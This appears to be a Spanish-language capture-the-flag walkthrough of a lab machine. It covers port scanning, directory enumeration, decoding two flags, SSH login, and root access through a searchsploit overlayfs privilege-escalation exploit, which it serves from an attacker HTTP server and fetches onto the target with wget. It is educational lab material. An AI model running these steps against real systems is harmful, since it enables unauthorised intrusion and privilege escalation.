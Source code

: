 1. Escaneo de puertos 
```
nmap -p- --open -n -Pn -vvv --min-rate 5000 192.168.20.50 -oN scanPorts 
```
Impresión 
```
Discovered open port 22/tcp on 192.168.20.50
Discovered open port 80/tcp on 192.168.20.50
```

2. Búsqueda de directorios potenciales
```
gobuster dir -w /usr/share/wordlist/common.txt -u http://192.168.20.50/
```
Impresión
```
/robots.txt           (Status: 200) [Size: 79]
/robots               (Status: 200) [Size: 79]
```

3. Dentro de los directorios se encuentra el siguiente Hash 
```
R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9
```

4. Des encriptarlo
```
echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 -d
```
Impresión 
```
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}# 
```

5. Autenticación por el puerto 22 
```
ssh itsskv@192.168.20.50
```

6. Dentro del directorio actual se encuentra la siguiente flag 
```
-rw-rw-r--  1 itsskv itsskv   495 Jun 27  2020 flag2.txt
```

7. Identificar el hash
```
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

8. Des encriptar con el siguiente script 
```python
def binary_to_ascii(binary_string):
    binary_list = binary_string.split()  # Divide la cadena en una lista de dígitos binarios
    ascii_text = ""

    for binary_digit in binary_list:
        decimal_value = int(binary_digit, 2)  # Convierte el dígito binario a decimal
        ascii_text += chr(decimal_value)  # Agrega el carácter ASCII al texto

    return ascii_text

binary_input = input("Ingrese la cadena de dígitos binarios separados por espacios: ")
ascii_output = binary_to_ascii(binary_input)
print("Texto ASCII resultante:", ascii_output)
```
impresión 
```
Texto ASCII resultante: good work !
flag2: cybersploit{https:t.me/cybersploit1}
```

9. Identificando la versión del sistema operativo 
```
lsb_release -a
```
Impresión
```
Description:	Ubuntu 12.04.5 LTS
Release:	12.04
```

10. Buscar vulnerabilidades del sistema operativo 
```
searchsploit Ubuntu 12.04 
```
Impresión 
```
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
```

11. Descargar el archivo 
```
searchsploit -m 37292.c 
```

12. Abrir un servidor para compartir recursos   
```
python3 -m http.server 80
```

13. Descargar el script en la maquina victima 
```
wget http://192.168.20.154/37292.c
```

14. Añadir permisos de ejecución 
```
chmod +x 37292.c
```

15. Ejecución del script (Las veces necesarias hasta que no hayan errores)
```
gcc -o escalada 37292.c
```

16. Root
```
./escalada
```
